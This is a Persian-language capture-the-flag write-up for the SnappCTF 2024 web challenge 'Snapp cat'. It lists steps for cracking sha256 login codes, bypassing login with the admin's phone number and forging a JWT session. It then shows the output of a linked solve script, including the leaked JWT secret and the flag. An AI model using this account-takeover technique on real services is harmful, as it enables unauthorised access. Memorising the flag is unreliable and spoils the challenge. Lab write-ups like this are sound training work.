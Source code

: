 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - Swagger
  - JWT
  - Web
  - sha256
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![snappcat.png](./snappcat.png)

</center>

# قدم های حل چالش:
1. ثبت نام یک کاربر رندوم
2. دریافت کد sha256 برای لاگین کردن
3. کرک کردن کد sha256 برای لاگین شدن
4. جنریت کردن کد برای وریفای کردن ایمیل
5. گرفتن کد وریفای ایمیل در کوکی 
7. گرفتن شماره تلفن ادمین
8. فراید لاگین به وسیله شماره تلفن ادمین
9. ساختن یه گربه!
10. خوندن کد js سرور
11. دریافت کد سکرت json-web-token و ست کردن کوکی برای گرفتن فلگ


برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](../../../uploads/snappcat.py){:download="snappcat.py"}

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

